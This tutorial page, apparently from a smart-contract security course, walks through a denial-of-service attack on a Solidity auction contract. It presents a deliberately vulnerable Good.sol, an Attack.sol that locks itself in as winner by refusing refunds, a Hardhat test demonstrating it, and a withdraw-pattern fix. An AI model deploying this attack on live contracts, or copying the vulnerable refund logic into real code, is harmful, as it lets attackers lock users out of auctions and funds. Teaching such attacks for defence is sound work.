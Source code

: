 ```yaml
---
description: 🛡️ Deny users from accessing a smart contract
---
```


# DOS in a Contract

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

**A Denial of Service (DOS)** attack is a type of attack that is designed to disable, shut down, or disrupt a network, website, or service.&#x20;

Essentially it means that the attacker somehow can prevent regular users from accessing the network, website, or service therefore denying them service.&#x20;

This is a very common attack which we all know about in web2 as well but today we will try to imitate a Denial of Service attack on a smart contract

### 🤔 Overview

There will be two smart contracts - **`Good.sol`** and **`Attack.sol`**.&#x20;

**`Good.sol`** will be used to run a sample auction where it will have a function in which the current user can become the current winner of the auction by sending **`Good.sol`** higher amount of ETH than was sent by the previous winner. After the winner is replaced, the old winner is sent back the money which he initially sent to the contract.

**`Attack.sol`** will attack in such a manner that after becoming the current winner of the auction, it will not allow anyone else to replace it even if the address trying to win is willing to put in more ETH.&#x20;

Thus **`Attack.sol`** will bring **`Good.sol`** under a DOS attack because after it becomes the winner, it will deny the ability for any other address to becomes the winner.

### ⚒️ Contract

**Setup a Hardhat project**

```shell
mkdir denial-of-service
cd denial-of-service
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox

# bootstrap the hardhat project
npx hardhat
```

Make sure you select **`Create a Javascript Project`**

Create a new file inside the **`denial-of-service/contracts`**directory and call it **`Good.sol`**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        (bool sent, ) = currentWinner.call{value: currentAuctionPrice}("");
        if (sent) {
            currentAuctionPrice = msg.value;
            currentWinner = msg.sender;
        }
    }
}
```

This is a pretty basic contract which stores the address of the last highest bidder, and the value that they bid.&#x20;

Anyone can call **`setCurrentAuctionPrice` ** and send more ETH than **`currentAuctionPrice`**, which will first attempt to send the last bidder their ETH back, and then set the transaction caller as the new highest bidder with their ETH value.

Create a new file inside the **`denial-of-service/contracts`**directory and call it **`Attack.sol`**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
```

This contract has a function called **`attack()`**, that just calls **`setCurrentAuctionPrice`** on the **`Good` ** contract.&#x20;

Note, however, this contract **does not have** a **`fallback()`** function **where it can receive ETH.**&#x20;

#### Writing the Test

Create a new file inside the **`.../test`**directory and call it **`attack.js`**

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Denial of Service", function () {
  it("After being declared the winner, Attack.sol should not allow anyone else to become the winner", async function () {
    // Deploy the good contract
    const Good = await ethers.getContractFactory("Good");
    const goodContract = await Good.deploy();
    await goodContract.deployed();
    console.log("Good Contract's Address:", goodContract.address);

    // Deploy the Attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attackContract = await Attack.deploy(goodContract.address);
    await attackContract.deployed();
    console.log("Attack Contract's Address", attackContract.address);

    // Now let's attack the good contract
    // Get two addresses
    const [_, addr1, addr2] = await ethers.getSigners();

    // Initially let addr1 become the current winner of the auction
    let tx = await goodContract.connect(addr1).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("1"),
    });
    await tx.wait();

    // Start the attack and make Attack.sol the current winner of the auction
    tx = await attackContract.attack({
      value: ethers.utils.parseEther("3"),
    });
    await tx.wait();

    // Now let's trying making addr2 the current winner of the auction
    tx = await goodContract.connect(addr2).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("4"),
    });
    await tx.wait();

    // Now let's check if the current winner is still attack contract
    expect(await goodContract.currentWinner()).to.equal(attackContract.address);
  });
});

```

Notice how **`Attack.sol`** will lead **`Good.sol`** into a DOS attack.&#x20;

First **`addr1` ** will become the current winner by calling **`setCurrentAuctionPrice` ** on **`Good.sol`** then ** `Attack.sol`** will become the current winner by sending more ETH than **`addr1` ** using the attack function.

&#x20;Now when **`addr2` ** will try to become the new winner, it won't be able to do that because of this check(`if (sent)`) present in the `Good.sol` contract which verifies that the current winner should only be changed if the ETH is sent back to the previous current winner.

Since **`Attack.sol`** doesn't have a `fallback` function which is necessary to accept ETH payments, `sent` is always `false` and thus the current winner is never updated and `addr2` can never become the current winner

```sh
npx hardhat test
```

### 👮 Prevention

* You can create a separate withdraw function for the previous winners.

**Example:**

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;
    mapping(address => uint) public balances;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        balances[currentWinner] += currentAuctionPrice;
        currentAuctionPrice = msg.value;
        currentWinner = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != currentWinner, "Current winner cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```


